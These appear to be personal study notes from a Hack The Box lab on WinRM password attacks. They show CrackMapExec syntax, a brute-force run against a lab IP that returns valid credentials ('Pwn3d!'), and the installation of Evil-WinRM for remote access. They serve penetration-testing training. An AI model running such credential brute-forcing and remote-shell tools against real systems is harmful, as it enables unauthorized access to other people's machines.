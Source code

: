 ```shell-session

optional arguments:
  -h, --help            show this help message and exit
  -id CRED_ID [CRED_ID ...]
                        database credential ID(s) to use for authentication
  -u USERNAME [USERNAME ...]
                        username(s) or file(s) containing usernames
  -p PASSWORD [PASSWORD ...]
                        password(s) or file(s) containing passwords
  -k, --kerberos        Use Kerberos authentication from ccache file (KRB5CCNAME)

<SNIP>
```

- The general syntax for crack map is 
```shell-session
00818@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

Used Syntax >
```shell-session
	00818@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

- Pwn3d! means that we can most likely execute system commands if we log in with the brute-forced user
- Another handy tool that we can use is to communicate with the WinRM service is the Evil-WInRM service which allows us to communicate with teh WinRM service efficiently

## Evil-WinRM
- First we need to install Evil-WinRM 
```shell-session
00818@htb[/htb]$ sudo gem install evil-winrm

Fetching little-plugger-1.1.4.gem
Fetching rubyntlm-0.6.3.gem
Fetching builder-3.2.4.gem
Fetching logging-2.3.0.gem
Fetching gyoku-1.3.1.gem
Fetching nori-2.6.0.gem
Fetching gssapi-1.3.1.gem
Fetching erubi-1.10.0.gem
Fetching evil-winrm-3.3.gem
Fetching winrm-2.3.6.gem
Fetching winrm-fs-1.3.5.gem
Happy hacking! :)
```

